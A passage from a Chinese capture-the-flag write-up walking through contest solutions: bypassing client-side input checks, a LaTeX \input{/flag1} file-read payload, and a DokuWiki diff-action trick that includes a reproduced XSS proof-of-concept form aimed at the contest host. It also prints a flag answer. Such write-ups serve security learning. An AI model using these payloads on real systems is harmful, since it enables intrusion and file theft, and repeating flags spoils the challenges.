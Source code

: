 
发现不是数字就不会进行判定，输入只要是字母就可以得到flag。  
事情好办多了，直接F12去除前端对输入的判定（`<input>`的`type="number"`和`<button>`的`disabled`），POST过去。

得到flag`flag{gu3ss-n0t-a-numb3r-1nst3ad-CITED}`

## LaTex机器人

### 纯文本

直接`\input{/flag1}`得到答案。

### 特殊字符混入

不会

## flag的痕迹

dokuwiki中不同的 action 对应 URL 参数里面不同的 "do"。再探索一下，就能看到有个 action，似乎不在管理员 UI 的禁用列表里面。
dokuwiki的diff功能不在管理员禁用列表里面，直接访问`http://202.38.93.111:15004/doku.php?id=start&do=diff`得到flag。  
还有可以通过github检索`2022-07-31a "Igor"`的版本更新，发现`https://huntr.dev/bounties/d72a979b-57db-4201-9500-66b49a5c1345/`里提供的xss脚本：  

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://202.38.93.111:15004/doku.php?id=start" method="POST">
      <input type="hidden" name="difftype" value="sidebyside&apos;&quot;&#40;&#41;&amp;&#37;&lt;zzz&gt;&lt;ScRiPt&#32;&gt;alert&#40;9513&#41;&lt;&#47;ScRiPt&gt;" />
      <input type="hidden" name="do" value="diff" />
      <input type="hidden" name="do&#91;diff&#93;" value="1" />
      <input type="hidden" name="id" value="start" />
      <input type="hidden" name="rev2&#91;0&#93;" value="1" />
      <input type="hidden" name="rev2&#91;1&#93;" value="0" />
      <input type="hidden" name="sectok" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

得到flag
*本来想的是去搜一下未修复的漏洞，一不小心就过了*  

## 结语

时间比较紧，只做了这些，希望明年可以多做一些吧  
